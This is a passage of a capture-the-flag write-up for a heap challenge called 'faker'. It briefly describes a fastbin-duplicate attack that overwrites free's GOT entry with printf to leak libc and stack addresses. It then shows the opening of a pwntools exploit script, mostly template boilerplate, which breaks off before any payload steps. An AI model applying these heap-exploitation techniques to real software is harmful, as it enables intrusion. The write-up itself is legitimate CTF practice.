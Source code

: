 Using the bug we I used fastbin - duplicate technique and control the program execution flow. To leak libc i changed free[got] to printf. And keep %p into the data of that chunk. This leaks the libc and stack addresses
Here is my full exploit.

```python=
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host linker.3k.ctf.to --port 9654 ./linker
from pwn import *
from formatstring import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('./faker')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'faker.3k.ctf.to'
port = int(args.PORT or 5231)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
b *0x400D6C
c
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)
name_size = 0x0602148

```